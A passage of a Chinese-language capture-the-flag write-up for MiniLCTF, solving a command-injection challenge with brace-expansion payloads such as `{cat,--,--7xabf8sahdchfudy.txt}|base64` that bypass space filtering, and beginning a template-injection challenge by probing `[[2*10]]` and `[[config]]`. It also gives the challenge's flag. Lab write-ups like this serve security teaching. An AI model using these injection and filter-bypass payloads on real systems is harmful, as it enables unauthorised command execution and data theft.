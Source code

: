 直接访问`—7xabf8sahdchfudy.txt`得到flag`MiniLCTF{Y0u_G3t_1t_2333}`

![img](https://ws1.sinaimg.cn/large/006Vib6xly1frebcxoeh2j30c905w0t8.jpg)

这题学长说它是出题失误了，我这里说一下正解

其实本不能使用`%09`绕过空格，而是要使用`{,,}`这种形式

所以payload如下

```
vpsip:port/`{ls,-a}|base64`
我也不知道为什么一定要加-a参数，但是亲测bash里确实如此，有知道的师傅，希望可以在评论区留言（请开代理）

```

和上面一样，解码即可获得文件名`--7xabf8sahdchfudy.txt`

这里要注意了，因为这里文件名前面带有`--`，他会把后面的内容当作一个字符串，但是又没有中间空格，会报错

所以必须我们不能直接`cat --7xabf8sahdchfudy.txt`

需要通过`cat -- --7xabf8sahdchfudy.txt`才可以

构造

```
vpsip:port/`{cat,--,--7xabf8sahdchfudy.txt}|base64`

```

解码获得flag

我也尝试了不加base64，但是发现打印出来没有flag中的`{}`，是有问题的，保险起见还是用base64编码一下



### 幸运数字



这个自己写一下 



这个题是模板注入

所谓模板注入也就是用户可控输入参数使得可以进行代码执行等危险操作（渲染的模版内容受到我们的控制，所以我们要使用模版注入，插入在服务器端执行的代码）

先试个`[[2*10]]`

![img](https://ws1.sinaimg.cn/large/006Vib6xly1frghc3ixjij30e50aut9f.jpg)

![img](https://ws1.sinaimg.cn/large/006Vib6xly1frghc92j1hj30dz0453yw.jpg)

成功执行，说明确实是模版注入没错

这本应该是{{}} 但是原本执行不成功所以只能使用[[]]

20 表示了里面的表达式执行成功

那么输入`[[config]]`
